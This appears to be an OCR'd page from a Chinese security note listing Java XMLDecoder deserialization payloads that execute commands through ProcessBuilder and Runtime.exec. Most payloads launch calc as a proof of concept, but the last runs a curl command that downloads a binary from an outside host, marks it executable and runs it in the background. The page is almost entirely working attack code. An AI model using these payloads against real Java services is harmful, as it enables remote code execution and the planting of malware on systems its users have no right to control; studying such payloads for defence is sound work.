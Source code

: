 ```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0" class="java.beans.XMLDecoder">
<object class="java.lang.ProcessBuilder">
 <array class="java.lang.String" length="3">
   <void index="0"><string>powershell</string></void>
   <void index="1"><string>-Command</string></void>
   <void index="2"><string>calc</string></void>
 </array>
 <void method="start"></void>
</object>
</java>
```  
  
  
1  
  
**0x02 Runtime执行**  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0" class="java.beans.XMLDecoder">
  <object class="java.lang.Runtime" method="getRuntime">
    <void method="exec">
      <array class="java.lang.String" length="3">
        <void index="0">
          <string>powershell</string>
        </void>
        <void index="1">
          <string>-Command</string>
        </void>
        <void index="2">
          <string>Start-Process calc.exe</string>
        </void>
      </array>
    </void>
  </object>
</java>
```  
  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_202" class="java.beans.XMLDecoder">
  <object class="java.lang.Runtime" method="getRuntime">
    <void method="exec">
      <array class="java.lang.String" length="1">
        <void index="0">
          <string>calc</string>
        </void>
      </array>
    </void>
  </object>
</java>
```  
  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_202" class="java.beans.XMLDecoder">
  <object class="java.lang.Runtime" method="getRuntime">
    <void method="exec">
      <array class="java.lang.String" length="1">
        <void index="0">
          <string>curl http://www.dddd.com:7777/as -O && chmod +x as && nohup ./as &</string>
        </void>
      </array>
    </void>
  </object>
</java>
```